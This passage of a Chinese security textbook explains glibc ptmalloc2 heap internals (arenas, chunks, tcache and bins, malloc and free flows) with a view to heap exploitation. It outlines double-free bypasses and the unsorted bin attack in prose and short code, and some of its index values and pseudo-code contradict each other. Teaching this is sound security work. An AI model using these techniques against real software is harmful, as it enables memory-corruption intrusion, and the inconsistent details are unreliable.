







## 16.6 堆管理器内部机制

堆管理器是操作系统与应用程序之间的内存分配中间层。理解堆管理器的内部工作机制是掌握堆利用的前提——只有深刻理解分配器如何组织内存、如何维护元数据、如何处理并发，才能找到其中的漏洞并加以利用。本节以glibc的ptmalloc2为主线，深入讲解堆管理器的架构设计、核心数据结构、分配释放算法，以及现代保护机制。

### 16.6.1 堆管理器的历史演进

Linux用户态堆管理器经历了多次重大变革，每一次变革都与安全攻防紧密相关：

| 时期 | 分配器 | 关键特征 | 安全影响 |
|------|--------|----------|----------|
| 早期 | dlmalloc | Doug Lea的单线程分配器 | 无锁设计，单线程安全 |
| glibc 2.3+ | ptmalloc2 | 多线程支持，per-thread arena | 引入arena竞争问题 |
| glibc 2.26+ | ptmalloc2 + tcache | 线程本地缓存 | tcache大幅简化堆利用 |
| glibc 2.29+ | ptmalloc2 + tcache | 增强安全检查 | 增加利用难度 |
| glibc 2.32+ | ptmalloc2 + tcache | 指针加密（PROTECT_PTR） | fd/bk指针异或加密 |
| glibc 2.34+ | ptmalloc2 + tcache | 移除malloc hooks | hook-based利用失效 |

**为什么选择ptmalloc2作为重点？** 因为glibc是Linux系统最广泛使用的C标准库，ptmalloc2是其默认堆管理器。在CTF比赛和实际漏洞利用中，超过90%的堆相关题目和漏洞都涉及ptmalloc2。掌握ptmalloc2后，理解jemalloc（FreeBSD/Android默认）、musl-libc的mallocng等其他分配器会更加容易。

### 16.6.2 ptmalloc2整体架构

ptmalloc2的设计目标是在多线程环境下高效分配和释放内存，同时减少锁竞争。其核心架构包含以下组件：



**Arena（分配区）的概念：**

Arena是ptmalloc2中管理堆的核心数据结构，每个arena独立维护一组bins和堆状态。主线程使用全局的`main_arena`，其他线程可以拥有自己的arena以减少锁竞争。

```c
// main_arena 的简化定义（glibc源码）
struct malloc_state {
    mutex_t mutex;                    // 互斥锁
    int flags;                        // 状态标志
    mfastbinptr fastbinsY[NFASTBINS]; // fastbin数组
    mchunkptr top;                    // 堆顶chunk
    mchunkptr last_remainder;         // 上次分配的剩余chunk
    mchunkptr bins[NBINS * 2 - 2];    // unsorted/small/large bins
    unsigned int binmap[BINMAPSIZE];  // bin的位图，加速查找
    struct malloc_state *next;        // 下一个arena
    struct malloc_state *next_free;   // 下一个空闲arena
    INTERNAL_SIZE_T attached_threads; // 附加的线程数
    INTERNAL_SIZE_T system_mem;       // 系统内存总量
    INTERNAL_SIZE_T max_system_mem;   // 最大系统内存
};
```

**Arena的数量限制：**

32位系统：arena数量 ≤ 2 × CPU核心数 + 1
64位系统：arena数量 ≤ 8 × CPU核心数 + 1

当所有arena都被占用时，新线程会阻塞等待某个arena释放锁，而不是创建新的arena。

### 16.6.3 内存布局与系统调用

ptmalloc2通过两种系统调用向操作系统申请内存：

**brk/sbrk：** 调整堆顶指针（program break），适用于小块连续内存分配。

```c
// brk 系统调用示意
void *current_brk = sbrk(0);     // 获取当前堆顶
sbrk(0x1000);                     // 扩展堆 4KB
// 新的堆空间范围: [current_brk, current_brk + 0x1000)
```

**mmap：** 映射独立的内存区域，适用于大块内存分配。

```c
// mmap 系统调用示意
void *p = mmap(NULL, 0x21000,    // 默认阈值: 128KB (MMAP_THRESHOLD)
               PROT_READ | PROT_WRITE,
               MAP_PRIVATE | MAP_ANONYMOUS,
               -1, 0);
// 使用完毕后
munmap(p, 0x21000);
```

**分配阈值：** 默认情况下，当请求的内存大小超过`MMAP_THRESHOLD`（默认128KB）时，ptmalloc2会直接使用mmap分配。mmap分配的chunk具有`IS_MMAPPED`标志位，释放时直接munmap归还给操作系统，不经过bins管理。

**完整的内存布局视角：**



### 16.6.4 Chunk结构详解

chunk是ptmalloc2管理内存的最小单位。每个chunk包含一个头部（metadata）和用户数据区域。理解chunk的内存布局是堆利用的基础。

**已分配chunk的结构（64位系统，8字节对齐）：**

```text
  低地址                                              高地址
  ┌──────────────────────────────────────────────────────┐
  │  prev_size (8B)  │  前一个chunk若空闲则存储其大小        │
  ├──────────────────┼──────────────────────────────────────┤
  │  size (8B)       │  当前chunk大小 + 3位标志位             │
  ├──────────────────┼──────────────────────────────────────┤
  │  fd (8B)         │  用户数据区域开始                      │
  ├──────────────────┤  （已分配时，fd/bk不属于metadata，      │
  │  bk (8B)         │   而是用户数据的一部分）                │
  ├──────────────────┤                                      │
  │                  │                                      │
  │  用户数据...      │                                      │
  │                  │                                      │
  └──────────────────┴──────────────────────────────────────┘
  
  下一个chunk的 prev_size 字段
  （如果当前chunk已分配，该字段被用户数据覆盖使用）
```

**空闲chunk的结构：**

```text
  低地址                                              高地址
  ┌──────────────────────────────────────────────────────┐
  │  prev_size (8B)  │  前一个chunk若空闲则存储其大小        │
  ├──────────────────┼──────────────────────────────────────┤
  │  size (8B)       │  当前chunk大小 + 3位标志位             │
  ├──────────────────┼──────────────────────────────────────┤
  │  fd (8B)         │  forward pointer → 下一个空闲chunk     │
  ├──────────────────┼──────────────────────────────────────┤
  │  bk (8B)         │  backward pointer ← 上一个空闲chunk   │
  ├──────────────────┼──────────────────────────────────────┤
  │  fd_nextsize (8B)│  large bin: 下一个不同大小的chunk      │
  ├──────────────────┼──────────────────────────────────────┤
  │  bk_nextsize (8B)│  large bin: 上一个不同大小的chunk      │
  ├──────────────────┼──────────────────────────────────────┤
  │  未使用空间       │                                      │
  └──────────────────┴──────────────────────────────────────┘
```

**size字段的标志位详解：**

| 位 | 名称 | 含义 | 利用场景 |
|----|------|------|----------|
| bit 0 | PREV_INUSE | 前一个chunk是否正在使用 | 为0时可通过prev_size前向合并 |
| bit 1 | IS_MMAPPED | chunk是否通过mmap分配 | mmap的chunk释放时直接munmap |
| bit 2 | NON_MAIN_ARENA | chunk是否属于非主线程arena | 判断chunk所属的arena |

**实际大小的计算：**

```c
// 获取chunk的真实大小（去除标志位）
#define chunksize(p) (chunksize_nomask(p) & ~(SIZE_BITS))
// 真实大小 = size & ~0x7

// 获取prev_size字段
#define prev_size(p) ((p)->mchunk_prev_size)

// 判断前一个chunk是否空闲
#define prev_inuse(p) ((p)->mchunk_size & PREV_INUSE)

// 判断是否mmap分配
#define chunk_is_mmapped(p) ((p)->mchunk_size & IS_MMAPPED)
```

**关键设计：最小chunk大小**

在64位系统上，最小chunk大小为32字节（4个8字节字段），但由于8字节对齐要求，实际最小分配大小为32字节。当malloc(0)时，也会分配一个最小chunk。

**prev_size字段的复用：**

这是ptmalloc2的一个重要优化——当一个chunk正在被使用时，它的prev_size字段可以被前一个chunk（如果也正在使用）的用户数据覆盖使用。这意味着：
- 相邻的两个已分配chunk，后者的prev_size字段属于前者的用户数据区域
- 只有当一个chunk空闲时，后一个chunk的prev_size字段才有意义

这个设计是很多堆溢出/Off-by-one漏洞能够利用的根本原因。

### 16.6.5 Bins机制深度解析

当chunk被free后，ptmalloc2不会立即将内存归还给操作系统，而是将其放入空闲链表（bins）中以便后续复用。bins是ptmalloc2的核心数据结构，理解其运作机制对堆利用至关重要。



#### 16.6.5.1 Tcache（Thread Local Cache）

Tcache是glibc 2.26引入的线程本地缓存，设计目的是减少多线程环境下的锁竞争。它对堆安全产生了深远影响——几乎所有现代堆利用技术都涉及tcache。

**核心数据结构：**

```c
// glibc 源码中的定义
typedef struct tcache_entry {
    struct tcache_entry *next;   // 指向下一个空闲chunk
    struct tcache_perthread_struct *key;  // 用于double free检测 (glibc 2.29+)
} tcache_entry;

typedef struct tcache_perthread_struct {
    char counts[TCACHE_MAX_BINS];           // 每个bin中chunk的数量
    tcache_entry *entries[TCACHE_MAX_BINS]; // 每个bin的链表头
} tcache_perthread_struct;

#define TCACHE_MAX_BINS  64    // 64个bin
#define TCACHE_FILL_COUNT 7    // 每个bin最多7个chunk
// 64位系统: 覆盖范围 0x20 到 0x410 (32B 到 1040B)
```

**tcache的分配与释放流程：**



**tcache的安全检查演进：**

| glibc版本 | 安全检查 | 绕过难度 |
|-----------|----------|----------|
| 2.26-2.28 | 几乎无检查 | 极易利用，直接double free |
| 2.29 | 增加key字段检测double free | 需要先构造UAF修改key |
| 2.32 | 引入PROTECT_PTR，fd指针异或加密 | 需要泄露堆地址解密 |
| 2.34+ | 进一步增强检查 | 利用难度持续增加 |

**tcache key机制详解（glibc 2.29+）：**

```c
// 2.29+ 的 tcache_put
static __always_inline void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
    tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
    e->key = tcache;  // key指向tcache_perthread_struct
    e->next = tcache->entries[tc_idx];
    tcache->entries[tc_idx] = e;
    ++(tcache->counts[tc_idx]);
}

// 2.29+ 的 tcache_get 检查
static __always_inline void *
tcache_get (size_t tc_idx)
{
    tcache_entry *e = tcache->entries[tc_idx];
    if (__glibc_unlikely (!aligned_OK (e)))
        malloc_printerr ("malloc(): unaligned tcache chunk detected");
    tcache->entries[tc_idx] = e->next;
    --(tcache->counts[tc_idx]);
    e->key = NULL;  // 清除key
    return (void *) e;
}
```

double free检测逻辑：free时检查`e->key == tcache`，如果相等说明该chunk已在tcache中，触发错误。绕过方法：先修改chunk的key字段为任意值，再进行double free。

#### 16.6.5.2 Fast Bins

Fast bins是ptmalloc2中历史最悠久的小chunk快速分配机制，在tcache出现之前承担着小chunk的缓存角色。

**核心特征：**

```c
#define NFASTBINS  10
#define FASTBINS_ONLY_MAPPED_SIZE  (128 * SIZE_SZ / 4)  // 64位: 128B

mfastbinptr fastbinsY[NFASTBINS];
// 索引计算: index = (size - 1) / 8 - 2  (64位)
// fastbinsY[0] → size 0x20 (32B)
// fastbinsY[1] → size 0x30 (48B)
// fastbinsY[2] → size 0x40 (64B)
// ...
// fastbinsY[9] → size 0x80 (128B)
```

**Fast bin的关键安全特性：**

1. **LIFO（后进先出）**：最新释放的chunk最先被分配，类似于栈结构
2. **不合并**：释放时不会与相邻的空闲chunk合并（PREV_INUSE位保持为1）
3. **最大128B**：只处理小于等于128字节的chunk
4. **单向链表**：只使用fd指针，不需要bk

**fastbin的索引计算公式：**

```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

// 64位系统: (size >> 4) - 2
// size = 0x20 (32):  index = 0
// size = 0x30 (48):  index = 1
// size = 0x40 (64):  index = 2
// ...
// size = 0x80 (128): index = 6
```

**Fast bin的double free检测（glibc 2.23+）：**

```c
// _int_free 中的fastbin double free检测
if (__glibc_unlikely (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
                      || chunk_at_offset (p, size)->size >= av->system_mem))
    malloc_printerr ("free(): invalid next size (fast)");
// 检查即将入fastbin的chunk，其fd指向的chunk是否就是p本身
if (__glibc_unlikely (old == p))
    malloc_printerr ("double free or corruption (fasttop)");
```

这个检测非常简单：只比较fastbin链表头是否等于当前chunk。绕过方法：在两次free之间释放另一个同大小的chunk（A→B→A模式）。

#### 16.6.5.3 Unsorted Bin

Unsorted bin是一个双向循环链表，作为small bins和large bins的"中转站"。被free的chunk（不属于fastbin和tcache）首先放入unsorted bin，在malloc时才会被分类整理到对应的small/large bin中。

**unsorted bin的结构：**

```text
         ┌─────────────────────────────────────────┐
         │           unsorted_bin (bin[1])          │
         │  fd ─────────────────────────────────────│──┐
         │  bk ─────────────────┐                   │  │
         └─────────────────────│───────────────────┘  │
              ┌────────────────┘                      │
              ▼                                       ▼
         ┌──────────┐     ┌──────────┐     ┌──────────┐
         │ chunk A  │     │ chunk B  │     │ chunk C  │
         │ fd ──────│────▶│ fd ──────│────▶│ fd ──────│──┐
         │ bk ◀─────│────│ bk ◀─────│────│ bk ◀─────│◀─┘
         └──────────┘     └──────────┘     └──────────┘
              ▲                                       │
              └───────────────────────────────────────┘
```

**unsorted bin的处理流程（malloc时）：**

当malloc在tcache/fastbin/small bin中都找不到合适chunk时，会遍历unsorted bin，将chunk整理到正确的位置：

```c
// 简化的unsorted bin处理逻辑
while ((victim = unsorted_chunks(av)->bk) != unsorted_chunks(av)) {
    bck = victim->bk;  // 保存下一个chunk
    size = chunksize(victim);
    
    // 如果是精确匹配的单个chunk，直接返回
    if (size == nb && // 大小精确匹配
        bck == unsorted_chunks(av)) { // unsorted bin中只有一个chunk
        unsorted_chunks(av)->bk = bck;
        bck->fd = unsorted_chunks(av);
        return victim;
    }
    
    // 否则放入对应的small/large bin
    if (in_smallbin_range(size)) {
        // 放入small bin头部
    } else {
        // 放入large bin（按大小排序）
    }
}
```

**unsorted bin attack原理：**

unsorted bin attack利用了unsorted bin处理chunk时对bk指针的写入操作。通过覆盖unsorted bin中某个chunk的bk指针为`target_addr - 0x10`，可以实现将一个大值（main_arena中unsorted bin的地址）写入`target_addr`。

```c
// unsorted bin attack的关键代码
bck = victim->bk;
unsorted_chunks(av)->bk = bck;
bck->fd = unsorted_chunks(av);  // *(target_addr) = unsorted_bin_addr
```

#### 16.6.5.4 Small Bins

Small bins管理16到504字节的chunk，采用FIFO（先进先出）策略，每个bin中的chunk大小完全相同。

**Small bins的特征：**

```c
// Small bins: bin[2] 到 bin[63]
// 共62个bin，每个bin管理固定大小的chunk
// 大小范围: 16B, 32B, 48B, ..., 504B (步长16B)
// 64位系统: index = size >> 4

#define NSMALLBINS         64
#define SMALLBIN_WIDTH    (SIZE_SZ * 2)  // 64位: 16B
#define SMALLBIN_CORRECTION (MALLOC_ALIGNMENT > 2 * SIZE_SZ)
#define MIN_LARGE_SIZE    ((NSMALLBINS - SMALLBIN_CORRECTION) * SMALLBIN_WIDTH)
// MIN_LARGE_SIZE = 62 * 16 = 992 (0x3E0)，但实际上是从512开始
```

**Small bin的FIFO实现：**

```text
         ┌─────────────────────────────────────────┐
         │           small_bin[i]                   │
         │  fd ─────────────────────────────────────│──┐
         │  bk ─────────────────┐                   │  │
         └─────────────────────│───────────────────┘  │
              ┌────────────────┘                      │
              ▼                                       ▼
         ┌──────────┐     ┌──────────┐     ┌──────────┐
         │ 最旧chunk │     │  中间chunk│     │ 最新chunk │
         │ fd ──────│────▶│ fd ──────│────▶│ fd ──────│──┐
         │ bk ◀─────│────│ bk ◀─────│────│ bk ◀─────│◀─┘
         └──────────┘     └──────────┘     └──────────┘
              ▲                                       │
              └───────────────────────────────────────┘
         
         malloc: 从fd端取出 (最旧的)
         free:   放入bk端 (fd指针之前插入)
```

#### 16.6.5.5 Large Bins

Large bins管理大于等于512字节的chunk，采用FIFO策略，每个bin中的chunk大小可以不同，按大小降序排列。

**Large bins的分组：**

```text
63个large bins，按大小范围分组：
bin[64]  ~ bin[95]:  512B ~ ...        (步长64B)
bin[96]  ~ bin[111]: ...  ~ ...        (步长512B)
bin[112] ~ bin[119]: ...  ~ ...        (步长4KB)
bin[120] ~ bin[123]: ...  ~ ...        (步长32KB)
bin[124] ~ bin[125]: ...  ~ ...        (步长256KB)
bin[126]:            剩余所有大小
```

**Large bin的独特结构：**

large bin的空闲chunk除了fd/bk外，还有fd_nextsize和bk_nextsize字段，用于链接不同大小的chunk：

```c
// large bin中的chunk按大小降序排列
// fd_nextsize: 指向下一个不同大小的chunk
// bk_nextsize: 指向上一个不同大小的chunk

/*
  large_bin[64] 的链表结构：
  
  bin->fd ──▶ A(size=1000) ──▶ B(size=800) ──▶ C(size=600) ──▶ bin
              │                │                │
              │ fd_nextsize ──▶│ fd_nextsize ──▶│ fd_nextsize ──▶ bin
              │                │                │
  bin ◀───────│ bk_nextsize ◀──│ bk_nextsize ◀──│ bk_nextsize
*/
```

### 16.6.6 malloc分配流程详解

malloc的完整分配流程是一个多级查找过程，从最快的tcache到最慢的系统调用，层层递进。理解这个流程对于定位利用点至关重要：



**malloc的详细步骤（伪代码）：**

```c
void *malloc(size_t bytes) {
    // 1. 对齐和最小化请求大小
    size = request2size(bytes);  // 加上metadata大小，对齐到16B
    
    // 2. 尝试 tcache
    if (size <= tcache_max && tcache->counts[idx] > 0) {
        return tcache_get(idx);
    }
    
    // 3. 尝试 fastbin
    if (size <= max_fast) {
        chunk = fastbin[idx];
        if (chunk) {
            fastbin[idx] = chunk->fd;
            return chunk2mem(chunk);
        }
    }
    
    // 4. 尝试 small bin
    if (in_smallbin_range(size)) {
        chunk = smallbin[idx]->bk;
        if (chunk != smallbin[idx]) {
            unlink(chunk);  // 从链表中取出
            return chunk2mem(chunk);
        }
    }
    
    // 5. 整理 unsorted bin 并尝试 large bin
    // 这一步会将unsorted bin中的chunk整理到对应的bin中
    // 同时尝试找到精确匹配的chunk
    
    // 6. 尝试从 top chunk 分割
    if (chunksize(top) >= size + MINSIZE) {
        remainder = top + size;
        top = remainder;
        return chunk2mem(top);
    }
    
    // 7. 系统调用扩展堆
    return sysmalloc(size, av);
}
```

### 16.6.7 free释放流程详解

free的流程比malloc更复杂，因为它需要进行大量的安全检查（glibc 2.23+之后）：



**合并机制详解：**

chunk合并是ptmalloc2减少内存碎片的核心策略。当free一个chunk时，ptmalloc2会检查其前后的chunk是否空闲，如果空闲则进行合并：

```c
// 后向合并（向低地址方向合并）
if (!prev_inuse(p)) {
    // 前一个chunk是空闲的，可以合并
    prevsize = p->prev_size;
    size += prevsize;
    p = chunk_at_offset(p, -((long)prevsize));  // 合并后的chunk指针
    unlink(p);  // 从空闲链表中取出前一个chunk
}

// 前向合并（向高地址方向合并）
nextchunk = chunk_at_offset(p, size);
if (nextchunk != av->top) {
    nextinuse = inuse_bit_at_offset(nextchunk, size);
    if (!nextinuse) {
        // 后一个chunk是空闲的，可以合并
        unlink(nextchunk);  // 从空闲链表中取出后一个chunk
        size += chunksize(nextchunk);
    }
} else {
    // 后一个是top chunk，直接合并到top
    size += chunksize(nextchunk);
    av->top = p;
}
// 将合并后的chunk放入unsorted bin
bck = unsorted_chunks(av);
fwd = bck->fd;
p->bk = bck;
p->fd = fwd;
bck->fd = p;
fwd->bk = p;
```

**安全检查详解（glibc 2.23）：**

```c
// 1. 对齐检查
if (__glibc_unlikely (!aligned_OK (p)))
    malloc_printerr ("free(): invalid pointer");

// 2. 大小检查
if (__glibc_unlikely ((unsigned long) (size) <= 2 * SIZE_SZ)
    || __glibc_unlikely (!aligned_OK (size)))
    malloc_printerr ("free(): invalid size");

// 3. Fastbin double free检测
if (__glibc_unlikely (old == p))
    malloc_printerr ("double free or corruption (fasttop)");

// 4. 下一个chunk大小检查
if (__glibc_unlikely (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ)
    || __glibc_unlikely (chunk_at_offset (p, size)->size >= av->system_mem))
    malloc_printerr ("free(): invalid next size (fast)");

// 5. Top chunk检查
if (__glibc_unlikely (p == av->top))
    malloc_printerr ("double free or corruption (top)");
```

### 16.6.8 Top Chunk与Last Remainder

**Top Chunk：**

Top chunk是堆中最大的空闲chunk，位于堆的最高地址。当所有bins中都没有合适的chunk时，malloc会从top chunk中分割出所需大小的chunk。

```c
// top chunk 的特殊处理
if (chunksize(av->top) >= nb) {
    // 从top chunk分割
    victim = av->top;
    av->top = chunk_at_offset(victim, nb);
    av->top->size = (chunksize(victim) - nb) | PREV_INUSE;
    return chunk2mem(victim);
}
```

**Last Remainder：**

当从unsorted bin中找到一个比请求大小大得多的chunk时，ptmalloc2会将其分割，剩余部分成为last_remainder。下一次相同大小的malloc可以直接从last_remainder中分配，提高连续分配的局部性。

### 16.6.9 指针加密保护机制

